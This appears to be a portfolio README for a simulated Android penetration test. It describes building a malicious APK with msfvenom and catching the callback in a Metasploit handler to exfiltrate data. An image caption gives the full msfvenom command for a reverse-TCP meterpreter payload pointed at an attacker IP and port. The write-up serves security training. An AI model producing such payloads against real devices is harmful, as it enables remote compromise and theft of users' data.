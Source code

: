 # 🛡️ Android Mobile Pentesting Simulation: Remote C2 & Post-Exploitation Analysis
## Utilizing Metasploit for Data Exfiltration and Activity Injection
**Author:** Aman Sharma  
**Role:** VAPT & Pentesting(Simulation)  
**Contact** aman825077@gmail.com

-

## 📘 Overview  
This project demonstrates a hands-on simulation of a **Mobile  Penetration Test** on an Android target. The focus was to simulate an attacker exploiting a compromised device to exfiltrate sensitive data and manipulate user activity.

The goal was to utilize the **Metasploit Framework** to showcase core offensive security skills, including payload generation, listener configuration, and post-exploitation activities, directly correlating findings to common mobile security vulnerabilities like **Insecure Data Storage** and **Weak Authentication**.

---

## 🧩 Project Phases

### **Phase 1 — Payload Generation and Listener Setup**
- Created a malicious Android Application Package (`.apk`) using **`msfvenom`** with a **`android/meterpreter/reverse_tcp`** payload.
- Configured the payload to call back to the Kali Linux attacker machine (`LHOST=192.168.66.133`, `LPORT=4444`).
- Setup the corresponding listener using the **`exploit/multi/handler`** module in Metasploit.

**Outcome:** Successfully generated the malicious APK (`viruss.apk`) and established a persistent C2 session upon the application's execution on the target Android emulator.

<p align="center">
  **Payload Creation Terminal**
  <br>
  <img src="images/Payload creation.png" alt="msfvenom command used to create the viruss.apk payload" width="700"/>
  <br>
  *Command: msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.66.133 LPORT=4444 -o viruss.apk*
</p>

---